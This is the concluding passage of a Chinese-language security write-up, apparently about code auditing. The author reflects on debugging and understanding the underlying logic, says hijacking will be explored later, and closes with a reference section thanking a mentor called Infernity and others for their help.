太优雅了，而且在这个过程中学会了跟进代码去审计，知道原理逻辑，虽然确实中间调试的时候会花费很多时间但是很开心！不过这里所提及的东西还是太过浅显，包括劫持等操作，后面还会探讨

# 0x04 reference

**Infernity**师傅对于代码审计部分的一些基本操作的帮助(第一次跟进，感觉很舒服)

期间还问了一些师傅其他问题，最后自己慢慢调试解决问题，谢谢师傅们的帮助啦

网上的文章都有看，谢谢师傅们！
